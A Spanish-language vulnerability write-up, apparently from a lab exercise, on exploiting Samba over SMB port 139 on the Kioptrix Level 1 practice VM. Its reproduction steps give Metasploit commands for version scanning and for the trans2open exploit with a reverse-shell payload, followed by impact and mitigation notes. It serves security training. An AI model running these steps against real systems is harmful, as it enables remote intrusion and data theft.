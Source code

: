 #  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
- Obtener  versión del protocolo smb
  1. Acceder a la consola de metasploit a través del comando msfconsole en la terminal
  2. Ejecutar el módulo smb_version con el comando “use auxiliary/scanner/smb/smb_version”  
  3. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
  4. Ejecutar el comando “run” para obtener la versión del protocolo smb 

-  Establecer conexión con el protocolo smb
  5. Modificar el archivo smb.conf agregando “client min protocol = NT1” al final del grupo global 
  6. Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
  7. Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 
 
- Exploit 
  8. Acceder a la consola de metasploit y buscar modulo trans2open ejecutando “search trans2open”
  9.  Poner en uso el modulo trans2open ejecutando “use” más el número del módulo Linux
  10. Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
  11. Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
  12. Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable con el fin de bloquear el servicio para el que está destinado. Este ataque puede afectar, tanto a la fuente que ofrece la información como puede ser una aplicación o el canal de transmisión, así como a la red. En las redes, el peligro de un ataque basado en el protocolo SMB es particularmente alto, ya que, por motivos de compatibilidad, en la red suelen estar activadas todas las versiones de SMB, porque así lo requieren las impresoras u otros dispositivos de red conectados. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla.

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/


### PoC
